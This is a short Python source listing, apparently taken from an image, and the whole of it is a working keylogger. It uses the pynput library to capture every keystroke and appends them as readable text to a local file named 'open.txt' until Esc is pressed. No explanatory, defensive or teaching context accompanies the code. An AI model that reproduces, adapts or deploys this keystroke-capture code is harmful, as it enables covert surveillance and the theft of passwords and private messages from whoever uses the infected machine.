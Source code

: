 import pynput
from pynput.keyboard import Key, Listener

keys = []

def on_press(key):
    global keys
    keys.append(key)
    write_file(keys)
    keys = []

def write_file(keys):
    with open("open.txt", "a") as f:
        for key in keys:
            k = str(key).replace("'", "")
            if k.find("space") > 0:
                f.write(' ')
            elif k.find("Key") == -1:
                f.write(k)
            elif k.find("enter") > 0:
                f.write('\n')
            elif k.find("shift") > 0:
                pass  
            else:
                f.write(f'[{k}]') 
def on_release(key):
    if key == Key.esc:
        return False

with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
